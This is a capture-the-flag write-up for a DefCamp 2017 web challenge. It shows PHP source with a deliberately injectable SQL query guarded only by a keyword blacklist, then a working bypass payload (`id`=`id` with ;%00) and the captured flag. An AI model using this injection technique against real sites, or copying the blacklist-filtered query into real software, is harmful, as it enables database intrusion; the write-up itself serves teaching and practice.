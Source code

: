 **View Source Code**

By viewing the code at `https://brave.dctf-quals-17.def.camp/index.php~`, we can retrieve the details
```
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {
    die('<h3>Nop.</h3>');
}
```
based on the `$id` and `$key`, the possible point of entry will most likely be `$id`, and by studying the conditions in the preg_match
`%`, `0`, `;` and `` ` `` are not checked.

**Constructing the query**
After analyzing the query, we can form a similar construct to the SQL `1=1`,

```
`id` = `id`
```
has the same effect as `1=1`

Lastly, we want to ignore `$key` param and end the query after inserting `$id`, hence we append `;%00` at the back.

**Conclusion**
Submitting `https://brave.dctf-quals-17.def.camp/index.php?id=`id`;%00` will give us the flag

Users:
- Try Harder
- DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
